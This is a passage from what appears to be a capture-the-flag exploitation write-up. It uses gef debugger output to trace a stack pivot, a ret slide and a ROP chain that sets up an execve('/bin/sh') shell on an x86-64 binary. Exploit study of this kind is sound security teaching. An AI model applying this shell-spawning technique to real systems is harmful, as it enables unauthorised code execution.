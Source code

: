 ```
gef➤  x/i 0x400416
   0x400416:  ret
gef➤  x/22g 0x7fff383d4c00
0x7fff383d4c00: 0x0000000000400416  0x0000000000400416
0x7fff383d4c10: 0x0000000000400416  0x0000000000400416
0x7fff383d4c20: 0x0000000000400416  0x0000000000400416
0x7fff383d4c30: 0x0000000000400416  0x0000000000400416
0x7fff383d4c40: 0x0000000000415f04  0x00000000006b6030
0x7fff383d4c50: 0x000000000044a155  0x0068732f6e69622f
0x7fff383d4c60: 0x000000000048d301  0x0000000000415f04
0x7fff383d4c70: 0x000000000000003b  0x0000000000400686
0x7fff383d4c80: 0x00000000006b6030  0x0000000000410a93
0x7fff383d4c90: 0x0000000000000000  0x000000000044a155
0x7fff383d4ca0: 0x0000000000000000  0x000000000040132c       
```

So we can see that the saved base pointer has been overwritten to `0x7fff383d4c00` which will cause the instruction address at `0x7fff383d4c08` to be executed with the second `ret`, which will be one of the gadgets for the ret slide. When it returns, we can see it starts off with the `leave/ret` instructions at `0x400c44`:

```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400bca                  call   0x40ffb0
     0x400bcf                  nop    
     0x400bd0                  leave  
 →   0x400bd1                  ret    
   ↳    0x400c44                  leave  
        0x400c45                  ret    
        0x400c46                  push   rbp
        0x400c47                  mov    rbp, rsp
        0x400c4a                  sub    rsp, 0x10
        0x400c4e                  mov    DWORD PTR [rbp-0x4], edi
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```

Procceding that we can see that the ret instructions that are part of our retslide that are executed:

```
──────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400c39                  or     cl, BYTE PTR [rbx-0x387603bb]
     0x400c3f                  call   0x400b73
     0x400c44                  leave  
 →   0x400c45                  ret    
   ↳    0x400416                  ret    
        0x400417                  add    bh, bh
        0x400419                  and    eax, 0x2b8bfa
        0x40041e                  xchg   ax, ax
        0x400420                  jmp    QWORD PTR [rip+0x2b8bfa]        # 0x6b9020
        0x400426                  xchg   ax, ax
──────────────────────────────────────────────────────────────────────────────────────── threads ────
```
